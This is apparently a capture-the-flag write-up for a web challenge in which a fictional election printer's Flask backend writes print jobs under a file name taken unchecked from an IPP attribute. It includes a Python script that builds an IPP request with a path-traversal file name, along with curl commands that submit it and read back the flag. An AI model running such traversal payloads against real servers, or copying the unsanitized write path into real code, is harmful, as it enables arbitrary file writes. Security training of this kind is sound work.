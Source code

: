 ```yaml
---
layout: writeup
title: Who checks the integrity of the integrity checks?
tags: WebX
---
```


## Description

The government has ordered verification of the votes via the printed receipts. The results were... a mismatch in votes! While there were probably multiple ways that this came as a result, is it possible for someone to tamper with the receipts?

<!--more-->

As the backend code for all of week 4 was the same, we also had the backend code of the printer


## Solution

Here is the backend code of the printers:

```python
from flask import Flask, request, send_file, abort, Response
import os
import struct

app = Flask(__name__)

FLAG_PATH = "/flag.txt"
PRINTJOB_FOLDER = "/tmp/printjobs"
CHAL_TARGET_FOLDER = "/tmp/winners"

@app.route('/printers/votes', methods=['POST'])
def handle_print_job():
    data = request.data
    idx = 8
    if data[idx] != 0x01:
        return "Missing operation attributes tag", 400
    idx += 1

    filename = None
    try:
        while data[idx] != 0x03:
            tag = data[idx]
            name_len = struct.unpack(">H", data[idx+1:idx+3])[0]
            name = data[idx+3:idx+3+name_len].decode()
            val_len_offset = idx+3+name_len
            val_len = struct.unpack(">H", data[val_len_offset:val_len_offset+2])[0]
            val = data[val_len_offset+2:val_len_offset+2+val_len].decode()
            if name == "job-name":
                filename = val
            idx = val_len_offset + 2 + val_len
    except Exception:
        return "Malformed IPP attributes", 400

    idx += 1  # skip end tag
    pdf_data = data[idx:]

    if not filename:
        return "job-name attribute is required", 400

    with open(f"{PRINTJOB_FOLDER}/{filename}", "wb") as f:
        f.write(pdf_data)

    actual_path = os.path.realpath(os.path.join(PRINTJOB_FOLDER, filename))

    if actual_path.startswith(CHAL_TARGET_FOLDER):
        with open(FLAG_PATH, "r") as f:
            flag = f.read()

        with open(actual_path, "w") as f:
            f.write(flag)

    return Response("Print job saved", status=200, content_type="application/ipp")

@app.route("/files/<path:filename>")
def get_flag(filename):
    safe_path = os.path.realpath(os.path.join(CHAL_TARGET_FOLDER, filename))

    if not safe_path.startswith(os.path.realpath(CHAL_TARGET_FOLDER)):
        abort(403, description="Access denied")

    if not os.path.isfile(safe_path):
        abort(404, description="File not found")

    return send_file(safe_path)

@app.after_request
def add_printer_headers(response):
    response.headers["Server"] = "CUPS/2.3 IPP/2.0"
    return response

if __name__ == "__main__":
    os.makedirs(CHAL_TARGET_FOLDER, exist_ok=True)
    os.makedirs(PRINTJOB_FOLDER, exist_ok=True)
    app.run(host="0.0.0.0", port=631)
```

Now as this program ran on a different domain then all the other challenges, the first step was to figure out what domain the server was being run on. Now as I knew that the server for the mobile app was hosted at `http://mobile-app.commission.freedonia.vote` I figures, that it would probably be a very simmilar subdomain to this, so I tried `http://printer.commission.freedonia.vote` and what would you know it:

```bash
$ dig +short printer.commission.freedonia.vote
re.da.ct.ed
```

That has a IPv4 result in the DNS records. So, now knowing that the server was hosted at `http://printer.commission.freedonia.vote` its time to exploit.

Reading the code over we seem to need to input a value into `handle_print_job` that does directory traversal from `/tmp/printjobs/` into `/tmp/winners/` and then with `get_flag` we seem to be able to read any file within `/tmp/winners/` but can't do path traversal out of there.

The only hard part about this challenge is the complex `.ipp` file stuff that we appear to need to deal with. So after figuring out how `.ipp` files work, I came up with this python file which generates the `.ipp` file for me.

```python
import struct

fake_pdf = b"%PDF-1.7\n%...\n"

payload = b""

# They don't care about the first 8 bytes
payload += b"\x01" * 8 

# Operation Attributes Tag that needs to be \0x01 for some reason
payload += b"\x01"

# vars
header_name = b"job-name"
value = b"../winners/flaginsECUre123456.txt"

payload += b"\x00" # tag, not used
payload += struct.pack('>H', len(header_name)) # name_len
payload += header_name # name
payload += struct.pack('>H', len(value)) # val_len
payload += value # val

payload += b"\x03" # Ending character

payload += fake_pdf

with open("ipp_request.bin", "wb") as f:
	f.write(payload)
```

running this then writes a new `ipp_request.bin` file that contains the payload to submit. I called the file flaginsECUre123456.txt becuas ewe were told in the discord server not to call it guessable names so other teams can't just read our file but need to actually do the whole thing themselves, also becuase my team name was insECUre. I then submitted the payload

```bash
$ curl -X POST "http://printer.commission.freedonia.vote/printers/votes" --data-binary @ipp_request.bin -H "Content-Type: application/ipp"
Print job saved
```

 then read the file with /files

```bash
$ curl "http://printer.commission.freedonia.vote/files/flaginsECUre123456.txt"
cysea{cant_trust_anything_these_days_31fe6ba0a0}
```

 And there is our flag `cysea{cant_trust_anything_these_days_31fe6ba0a0}`
